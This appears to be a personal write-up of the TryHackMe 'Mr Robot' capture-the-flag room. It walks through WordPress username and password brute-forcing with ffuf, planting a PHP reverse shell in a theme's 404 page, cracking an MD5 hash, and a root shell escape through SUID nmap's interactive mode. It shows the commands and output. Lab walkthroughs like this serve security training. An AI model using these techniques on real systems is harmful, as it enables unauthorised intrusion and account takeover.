







# Mr Robot (THM)

- https://tryhackme.com/room/mrrobot
- March 15, 2023
- medium

---

## Enumeration

### Nmap

1. 80/http Apache httpd
2. 443/https Apache 

### HTTP



- It is a wordpress site



- robots.txt fond 2 files
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
- fsocity.dic may be some potential passwords (885160 words) and save in local machine

```sh
$ curl http://$IP/fsocity.dic -o fsocity.dic
```
- other file is for flag submission
- as it is a wordpress website and there is admin login page at `/wp-login.php` 
- one weakness of wordpress is if we enter username and password, we can know username is wrong or password is wrong separately.
- I tried with `admin:admin` and 



- it means there is no username `admin`
- try to brute force usernames with fsocity.dic wordlists like this

```sh
$ ffuf -u http://$IP/wp-login.php -X POST -w ./fsocity.dic -H "Content-Type: application/x-www-form-urlencoded" -d 'log=FUZZ&pwd=admin&wp-submit=Log+In' -fr "Invalid username"
```
- found one username
```
Elliot   [Status: 200, Size: 3635, Words: 144, Lines: 59]
```
- then enter with Elliot and grep the word that was returned due to wrong password



- try to brute force password again

```sh
ffuf -u http://$IP/wp-login.php -X POST -w ./fsocity.dic -H "Content-Type: application/x-www-form-urlencoded" 
-d 'log=Elliot&pwd=FUZZ&wp-submit=Log+In' -fr "The password you entered for the" -c
```

- it tooks too long as the correct password is last from the wordlist
- can enter web admin panel 



- add php reverse shell in `Appearence > Editor > 404.php`



## User Access

- listen with nc and get request to some arbitary route to trigger 404 page



- get `daemon` user access
- run linpeas
- potential vulnerabilities found

```
linux - 3.13.0-55-generic kernal exploit
/etc/crontab
suid - nmap
file -> /home/robot/password.raw-md5
`robot:c3fcd3d76192e4007dfb496cca67e13b`
```

- crack `password.raw-md5` from crackstation.net and get password

```sh
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

## Root Access

- It is possible to get root user access directly from `daemon` account using nmap suid as it is version 3.18 in which `--interactive` flag can be executed

```sh
daemon@linux:/opt/bitnami/stats$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# 
```

---